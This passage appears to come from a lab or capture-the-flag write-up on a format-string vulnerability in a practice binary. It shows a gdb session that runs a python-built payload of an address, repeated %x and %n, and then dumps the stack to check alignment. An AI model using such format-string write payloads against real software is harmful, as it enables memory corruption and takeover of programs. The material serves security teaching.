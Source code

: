 <p>Note the <code>0x20</code> is the ASCII code for space. Look at the place where our desired address appears. </p>

<p><code>0xffda3420      0x257825ff</code></p>

<p>It is broken by that one extra <code>0x20</code>, and there is no way we can interpret from a odd address, and since we can not delete that extra <code>0x20</code>, our only chance is to append our input with some junks to push the desired address back. </p>



<pre class="prettyprint"><code class="language-gdb hljs applescript">(gdb) <span class="hljs-command">run</span> $(python -c 'print <span class="hljs-string">"AAA\x34\xda\xff\xff"</span>+<span class="hljs-string">"%x"</span>*<span class="hljs-number">9</span>+<span class="hljs-string">"%x"</span>+<span class="hljs-string">"%n"</span>')
The program being debugged has been started already.
Start <span class="hljs-keyword">it</span> <span class="hljs-keyword">from</span> <span class="hljs-keyword">the</span> <span class="hljs-keyword">beginning</span>? (y <span class="hljs-keyword">or</span> n) y
Starting program: /c0re/attackformat $(python -c 'print <span class="hljs-string">"\x34\xda\xff\xff"</span>+<span class="hljs-string">"%x"</span>*<span class="hljs-number">9</span>+<span class="hljs-string">"%x"</span>+<span class="hljs-string">"%n"</span>')
(gdb) cont
Continuing.
Hi! Welcome <span class="hljs-keyword">to</span> <span class="hljs-keyword">the</span> HALL-E function.

Breakpoint <span class="hljs-number">2</span>, <span class="hljs-number">0x08048707</span> <span class="hljs-keyword">in</span> hall_e (
    fmt=<span class="hljs-number">0xffffdc42</span> <span class="hljs-string">"AAA\332\377\377%x%x%x%x%x%x%x%x%x%x%n"</span>)
    <span class="hljs-keyword">at</span> format.c:<span class="hljs-number">25</span>
<span class="hljs-number">25</span>              printf (buf);
(gdb) x/<span class="hljs-number">32</span>x $esp
<span class="hljs-number">0xffffd944</span>:     <span class="hljs-number">0xffffd95e</span>      <span class="hljs-number">0xffffd95e</span>      <span class="hljs-number">0x000000c9</span>      <span class="hljs-number">0x080487aa</span>
<span class="hljs-number">0xffffd954</span>:     <span class="hljs-number">0xffffdc42</span>      <span class="hljs-number">0x080487fc</span>      <span class="hljs-number">0x6f590000</span>      <span class="hljs-number">0x61732075</span>
<span class="hljs-number">0xffffd964</span>:     <span class="hljs-number">0x203a6469</span>      <span class="hljs-number">0x20202020</span>      <span class="hljs-number">0x41414120</span>      <span class="hljs-number">0xffffda34</span>
<span class="hljs-number">0xffffd974</span>:     <span class="hljs-number">0x25782578</span>      <span class="hljs-number">0x25782578</span>      <span class="hljs-number">0x25782578</span>      <span class="hljs-number">0x25782578</span>
<span class="hljs-number">0xffffd984</span>:     <span class="hljs-number">0x25782578</span>      <span class="hljs-number">0x35343331</span>      <span class="hljs-number">0x33323431</span>      <span class="hljs-number">0x6e257834</span>      
<span class="hljs-number">0xffffd994</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>
<span class="hljs-number">0xffffd9a4</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>
<span class="hljs-number">0xffffd9b4</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>
</code></pre>
